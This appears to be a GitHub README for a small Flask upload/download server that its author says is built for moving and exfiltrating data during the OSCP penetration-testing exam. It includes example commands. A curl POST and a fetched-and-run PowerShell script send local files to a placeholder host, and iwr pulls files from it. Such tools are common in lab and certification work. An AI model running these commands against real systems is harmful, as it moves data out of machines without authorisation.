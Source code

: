 # multi_server

**Warning : This app is designed to help during the OSCP to download/exfiltrate datas. Not to be run in production.**

Tested on : Python 3.11

A simple server in Flask to download/upload files.

	$ git clone https://github.com/adann0/multi_server.git
	$ cd multi_server
	$ python3 -m venv venv
	$ source venv/bin/activate
	$ pip install -r requirements.txt
	$ pip install .

You can then run the Server :

	$ python3 -m multi_server <port>

You can access the webapp at **http://<ip>:<port>**.

You can download the files in the current folder from the command line, for example :

    PS > iwr -uri http://<ip>:<port>/<file> -outfile <file>

You can also upload your files, on Linux :

    $ curl -X POST -F "file=@<file_path>" http://<ip>:<port>/upload

Or with Powershell :

    PS > iwr -uri https://raw.githubusercontent.com/adann0/multi_server/main/upload.ps1 -outfile upload.ps1
    PS > .\upload.ps1 -ip <ip> [-port <port>] -file <file_path> 

The uploaded files are in **uploads/**.

## Source

- https://www.geeksforgeeks.org/how-to-upload-file-in-python-flask/
